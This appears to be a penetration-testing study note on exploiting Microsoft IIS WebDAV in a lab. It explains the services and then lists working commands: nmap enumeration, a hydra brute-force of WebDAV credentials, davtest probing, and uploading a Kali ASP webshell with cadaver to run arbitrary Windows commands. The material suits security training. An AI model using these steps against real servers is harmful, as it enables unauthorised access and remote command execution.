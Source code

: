 Exploiting microsoft IIS WebDAV
#### Microsoft IIS
- web server developed by microsoft
- used to host websites/web
- it can host both static and dynamic web
- port 80/443
- supports - .asp,.aspx,.config,.php etc
#### WebDAV
- a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers
- webdav enables a web server to function as file server
- webdav runs on top microsoft IIS on ports 80/443
- need legitimate credentials to connect webdav if authentication enable.

#### Exploitatin process
- confirm if webdav is configured using microsoft IIS by seeing service name and ports  from nmap
- after confirming the service, brute force to identify credentials
- authenticate with webdav and upload malicious files to execute arbitrary commands

#### Tools
- davtest  -- used to scan,authenticate and exploit a webdav server.
-  cadaver -- used to upload,download,on-screen display,in-place editing,move/copy,collection creation,deletion,property manipulation, resource locking on webdav servers.

#### Exploitation
- nmap -sV -sC 10.2.17.124 [ this confirm IIS webdav services]
- nmap -sV -p 80 --script=http-enum 10.2.17.124 [ this show the webdav folders it also shows unauthorised]
- hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/ [ here webdav is folder name ]
- davtest -url http://10.2.17.124/webdav -auth bob:password_123321 [ this test what kind of file can be uploaded and executed]
- cadaver http://10.2.17.124/webdav [ this will ask for credentials,we can edit the folder by this tool]
- move new tab and search for kali webshell for uploading  in webdav [ /usr/share/webshells ]
- again move to cadaver "put /usr/share/webshells/asp/webshell.asp"  [ upload a asp shell because we find asp can be executed in webdav ]
- now go to browser http://10.2.17.124/webdav we find all the files.Click webshell.asp which give us an input box where we can put arbitrary windows commands
